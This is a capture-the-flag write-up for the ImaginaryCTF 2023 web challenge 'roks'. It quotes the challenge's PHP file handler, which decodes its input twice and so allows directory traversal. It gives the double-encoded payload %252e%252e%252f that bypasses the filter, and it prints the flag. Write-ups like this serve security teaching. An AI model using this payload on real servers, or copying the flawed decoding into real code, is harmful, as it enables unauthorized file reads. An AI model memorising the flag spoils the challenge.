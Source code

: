 ```yaml
---
title: 2023 ImaginaryCTF - roks
author: thanguyen165
date: 2023-07-23 00:00:00 +0700
categories: [Write-ups, 2023_imaginaryCTF]
tags: [Web Exploitation, write-ups]
---
```


* Points: 100

## Description

> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

### Attached

[roks.zip](https://imaginaryctf.org/r/0Sm4V#roks.zip)

## Analyzation

Check the docker file first
```docker
FROM php:8-apache

RUN /usr/sbin/useradd -u 1000 user

COPY index.php /var/www/html/
COPY file.php /var/www/html/
COPY styles.css /var/www/html/
COPY stopHacking.png /var/www/html/

RUN mkdir /var/www/html/images
COPY images/* /var/www/html/images
COPY flag.png /

VOLUME /var/log/apache2
VOLUME /var/run/apache2

CMD bash -c 'source /etc/apache2/envvars && APACHE_RUN_USER=user APACHE_RUN_GROUP=user /usr/sbin/apache2 -D FOREGROUND'
```

So the flag is at root directory, and the site is at ```/var/www/html/```

Check the ```index.php```

```php
xhr.open("GET", "file.php?file=" + randomImageName, true);
```

then ```file.php```

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

So we must do directory traversal, but we cannot use dot "." or slash "/".

Also, ascii code, like

```
%2e%2e%2f
```

will not work due to
```php
$filename = urldecode($_GET["file"]);
```

## Solution

Encode one time fails, so do it twice

```
%252e%252e%252f
```

The flag is
```
ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}
```